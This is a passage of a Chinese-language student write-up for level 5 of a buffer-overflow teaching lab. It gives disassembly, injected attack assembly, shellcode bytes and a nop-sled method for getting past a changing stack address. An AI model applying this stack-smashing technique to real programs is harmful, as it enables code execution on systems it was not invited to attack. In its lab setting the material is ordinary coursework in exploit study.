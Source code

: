 40-43个字符是确保ebp处仍为原来的值
第五关：
第五关相较于第四关 ebp值每次运行都会变化，所以ebp处的值不能直接查看然后确定了，
但是getbufn中ebp处的值是testn中ebp的值，所以观察testn函数：

```
08048de0 <testn>:
 8048de0:	55                   	push   %ebp
 8048de1:	89 e5                	mov    %esp,%ebp
 8048de3:	53                   	push   %ebx
 8048de4:	83 ec 14             	sub    $0x14,%esp
 8048de7:	e8 64 ff ff ff       	call   8048d50 <uniqueval>
 8048dec:	89 45 f4             	mov    %eax,-0xc(%ebp)
 8048def:	e8 a4 03 00 00       	call   8049198 <getbufn>
```

在getbufn函数执行完ret指令后，esp和ebp就是与testn函数相关的，
所以在gtbufn中的ebp处的值可以用%esp+0x18
（push %ebx执行后%ebp=%esp+4，sub $0x14,%esp执行后%ebp=%esp+0x18），
先构造攻击的.s文件：

```
movl $0x4d6a7905,%eax
leal 0x18(%esp),%ebp
push $0x08048df4
ret
```

.s文件编译反汇编后的内容：
b8 05 79 6a 4d
8d 6c 24 18
68 f4 8d 04 08
c3

（这里讲个做题时出现的问题，也就本关卡了许久的地方，ppt里讲构造文件的方法是用gcc -m32 -c,
然后再objdump -d 返汇编，但是当时我做题的时候是跟着csdn上的文章做的，上面的博主是用as 指令生成的.o文件（eg：as 2.s -o 2.o)
这关我开始也是跟博主一样,用as指令，但是反汇编后leal 0x18(%esp),%ebp这句的机器代码相比于gcc编译反汇编产生的，多了一个67，如下：
b8 05 79 6a 4d
67 8d 6c 24 18
68 f4 8d 04 08
c3
然后我就接着做，结果就是一直不过关，然后就是查百度，看了很多博主的代码都是15字节，发现我最开始的博主生成的也是15字节，
感觉到不对劲（因为指令都一样，不一样的就是返回地址，和cookie，但这些都试4字节的，所以总字节数应该是一样的），就对比了许多博主的代码和自己的，
于是尝试着把不同的（67）去了，试了一下，竟然成功了，然后再看ppt的方法，然后重新生成一下，结果和我改后的是一样的，
但是我之前的.o文件都是as指令生成的，且没有出错，所以就凌乱了，不知道两种方法有啥区别，百度了也没找到啥有用信息。。。）

要构造攻击文件还需要知道数组的首地址，这样才能执行设计的攻击机器代码，这里获取的方法就是将整个过程运行一遍，
每次getbufn调用后查看数组首地址，然后用空指令撬，取5次首地址最大的一个供攻击文件使用，
（因为数组前面的大部分元素都是nop，要确保每次跳转都能跳在数组内部然后滑到有效指令处执行）
我运行查看后数组首地址最大为0x55683748，然后在攻击文件里用的是0x55683758

```
08049198 <getbufn>:
 8049198:	55                   	push   %ebp
 8049199:	89 e5                	mov    %esp,%ebp
 804919b:	81 ec 14 02 00 00    	sub    $0x214,%esp
 80491a1:	8d 85 f8 fd ff ff    	lea    -0x208(%ebp),%eax
 80491a7:	50                   	push   %eax
 80491a8:	e8 08 fb ff ff       	call   8048cb5 <Gets>
 80491ad:	b8 01 00 00 00       	mov    $0x1,%eax
 80491b2:	c9                   	leave  
 80491b3:	c3                   	ret   
```
